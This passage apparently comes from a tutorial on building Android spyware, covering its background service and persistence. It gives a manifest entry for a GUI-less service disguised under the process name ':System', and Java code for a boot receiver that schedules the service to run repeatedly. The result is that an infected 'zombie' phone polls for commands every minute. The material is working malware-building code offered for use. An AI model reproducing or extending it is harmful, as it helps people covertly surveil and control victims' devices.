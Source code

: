 # 3. Application Architecture
## 3.1. Background Service
When it comes to spyware software, you typically want to build application components which perform long-running operations in background without a GUI at all. From an Android perspective, this is possible with services instead of activities:

{% highlight xml %}
<service
    android:name="Fetcher"
    android:enabled="true"
    android:label="FetcherService"
    android:process=":System">
</service>
{% endhighlight %}

This service is started from a system standpoint when another module invokes it by calling `startService()`. Once started, a service can run in the background indefinitely, even if the component that started it is destroyed. Usually, a started service performs a single operation and does not return a result to the caller. In our specific case, `Fetcher` is bound to a loop of operations until its `AlarmManager` is terminated.

## 3.2. Persistence
When the application gets installed and opened, it will register a receiver which will be invoked during Android boot time `RECEIVE_BOOT_COMPLETED` (after system services get fully loaded that is). The main function of this `BroadcastReceiver` is to schedule an `AlarmManager` to start the Fetcher service periodically, thus, making it persistent in the device:

{% highlight java %}
public class Autostart extends BroadcastReceiver
{
    public Autostart(){
        // To prevent java.lang.InstantiationException
    }

    public void onReceive(Context context, Intent arg1)
    {
        Intent invokeService = new Intent(context, Fetcher.class);
        PendingIntent pintent = PendingIntent.getService(context, 0, invokeService, 0);
        AlarmManager alarm = (AlarmManager) context.getSystemService(Context.ALARM_SERVICE);
        if(alarm != null){
            alarm.setRepeating(AlarmManager.RTC_WAKEUP, System.currentTimeMillis(), R.string.milliseconds, pintent);
        }
    }
}
{% endhighlight %}

`R.string.milliseconds` is referenced from `res/values/strings.xml` which defines the frequency of device requests from a time standpoint. As of Android 5.1, the minimum value is 60 seconds (60000 milliseconds). Consequently, a "zombie" will send a check-up HTTP request every minute until it receives a task/command.
